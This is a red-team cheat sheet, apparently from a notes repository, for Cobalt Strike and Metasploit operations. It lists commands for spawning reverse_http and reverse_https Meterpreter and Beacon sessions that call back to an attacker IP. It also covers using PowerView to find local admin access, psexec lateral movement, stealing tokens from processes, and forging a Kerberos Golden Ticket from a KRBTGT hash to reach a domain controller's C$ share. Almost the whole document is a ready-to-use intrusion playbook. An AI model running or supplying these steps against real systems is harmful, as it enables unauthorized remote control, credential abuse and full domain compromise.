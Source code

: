 # Cobalt Strike

Move a meterpreter / metasploit session to Cobalt

\(Spawn Beacon from Meterpreter\)

```
in Cobalt
setup a listener
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of Cobalt Strike Listenter]
set LPORT 80
set session 1
set DisablePayloadHandler True
exploit (-j)
```

Move a Cobalt beacon to Metasploit

\(Spawn Meterpreter from Beacon\)

```
in Metasploit
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST ATTACKINGIP
set LPORT 443
set ExitOnSession False
exploit (-j)

in Cobalt
setup a foreign listener
windows/foreign/reverse_https
Right Click Beacon-->Spawn-->Select foreign beacon

Note: Cobalt will spawn an x86 shell, for any post exploit modules make sure to migrate to an x64 process like svchost
if applicable

```

View targets available from Initial Target

```
Right Click Target --> Explore -->Net View
```

Find where we are a local admin

```
beacon: powershell-import /root/PowerTools/PowerView/powerview.ps1
beacon: Invoke-FindLocalAdminAccess
```

Login to target where we are local admin

```
Right Click Target -->Login -->psexec (change Listener to SMB beacon)(choose a session)
(user session's current token)
```

Get token from processes

```
Right Click Target -->Explore-->Process List-->Steal Token
```

Create Multiple beacons on targets

```
Select the targets --> Right Click -->Login -->psexec --> choose a beacon with an elevated token-->
(user session's current token)-->Launch
```

Golden Ticket Generation

```
Need four items
1)User
2)Domain
3)Domain SID
4)KRBTGT Hash

3) shell whoami /user to obtain SID (also provides 1 & 2)
4) obtained from a previous compromise (i.e. NTLM hashdump)

With that Right Click-->Access-->Golden Ticket-->Input Four fields-->Build

Verify it works: #shell dir \\[DC]\C$
```



